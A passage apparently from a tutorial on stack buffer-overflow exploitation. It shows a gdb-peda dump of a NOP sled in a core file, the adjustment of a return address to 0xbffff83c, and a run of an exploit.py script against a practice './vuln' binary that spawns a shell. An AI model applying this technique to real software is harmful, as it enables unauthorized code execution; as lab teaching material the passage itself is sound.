 ```
  $ gdb ./vuln ./core
  gedb-peda$ stack
  Warning: not running or target is remote
  0000| 0xbffff820 (nop)
  0004| 0xbffff824 (nop)
  0008| 0xbffff828 (nop)
  0012| 0xbffff82c (nop)
  0016| 0xbffff830 (nop)
  0020| 0xbffff834 (nop)
  0024| 0xbffff838 (nop)
  0028| 0xbffff83c (nop)
```
As you can see the address is different we adjust this script to point to
0xbffff83c instead (the parameter to int2hexstr) and lets see how that works out
```
  $ ./exploit.py ./vuln
  AAAAAAAAAAAA.............
  $
```
Nice!! we ended up with a shell (those running bash will have seen their prompt
change

Level 1 complete! Next up what happens when we cant execute code from the
stack!!!! Winning!

